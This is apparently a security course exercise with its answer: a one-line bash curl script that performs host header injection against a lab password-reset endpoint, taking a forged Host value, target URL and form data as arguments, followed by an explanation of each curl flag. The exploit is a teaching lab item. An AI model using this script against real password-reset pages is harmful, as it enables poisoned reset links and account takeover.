 Task 1:
Write a bash script that exploit host header injection using curl.

Initial Endpoint : http://web0x00.hbtn/reset_password

Your script should accept the NEW HOST as ARG 1 ("$1").

Your script should accept the TARGET URL as ARG 2 ("$2").

Your script should accept the FORM DATA as ARG 3 ("$3").

R:
#!/bin/bash
curl -s -X POST -H "Host: $1" -d "$3" "$2"


curl:
It is the tool that is being used to make the HTTP request.

-s:
This flag means "silent". Makes curl not display the progress bar or error messages, only the command output.


-X POST:
This flag indicates the HTTP method that will be used, in this case, POST. POST is commonly used to send data to the server.

-H "Host: $1":
This flag specifies an HTTP header. Here, the Host header is defined with the value of the first argument $1. HTTP headers are used to pass additional information with the request.


-d "$3":
This flag is used to send data in the body of the HTTP request. Here, the body content is taken from the third argument $3.

"$2":
This is the second argument and represents the URL to which the POST request will be sent.

======
